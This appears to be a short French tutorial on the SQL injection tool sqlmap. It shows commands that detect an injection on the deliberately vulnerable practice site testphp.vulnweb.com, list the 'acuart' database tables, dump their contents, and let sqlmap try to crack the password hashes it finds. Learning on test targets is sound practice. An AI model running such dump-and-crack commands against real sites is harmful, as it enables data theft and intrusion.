




Sqlmap est un outil linux qui detect et exploit les attaque injections SQL.
Cette outils est acompagné de beaucoup de possibilité

Télécharger le fichier docker-compose.yml
On va faire le test sur une page web préfu pour les test : "http://testphp.vulnweb.com/artists.php?artist=2"
On lance la commande "sqlmap -u http://testphp.vulnweb.com/artists.php?artist=2" pour recherché les tables

On lance la commande "sqlmap -u http://testphp.vulnweb.com/artists.php?artist=2 -D acuart --tables" pour affiché les diférentes tables mySQL de ce site.

On lance la commande "sqlmap -u http://testphp.vulnweb.com/artists.php?artist=2 -D acuart --dump" pour affiché le contenu de la table user
si on ne fait que taper sur entrée sur la commande précédente, sqlmap tente de cacker les hashes trouvé
